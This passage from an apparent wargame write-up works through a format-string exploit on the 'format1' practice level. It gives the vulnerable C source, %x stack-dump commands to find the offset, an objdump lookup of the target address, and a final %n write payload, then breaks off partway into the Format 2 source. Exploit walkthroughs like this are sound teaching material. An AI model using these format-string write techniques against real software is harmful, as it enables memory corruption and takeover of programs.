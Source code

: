 ```
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Using a format string exploit here we can dump the stack using multiple "%x"'s. To start with I sent in '%x.' * 200 to see if our A's and B's are there.

```
./format1 $(python -c "print 'AAAABBBB' + '%x.' * 200")%x
(omitted)...41414100.42424241...(omitted)
```
As pictured above we can use this format string exploit to find the offset

```
./format1 $(python -c "print 'AAAABBBB' + '%x.' * 127")%x
(omitted)...41414141
```
Now we know that the offset is `'AAAABBBB' + '%x.' * 127` we can now find the location of the "target" variable in the binary and write that into the final payload.

From the hint on the webpage, it mentions to use `objdump -t`. So here, we can use it to find the target variable.
```
objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
```
Now we have the address 0x08049638, we have everything we need to complete this level.

### Exploit Code
```
./format1 $(python -c "print '8\x96\x04\x08BBBB' + '%x.' * 127")%n
```

## Format 2
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
```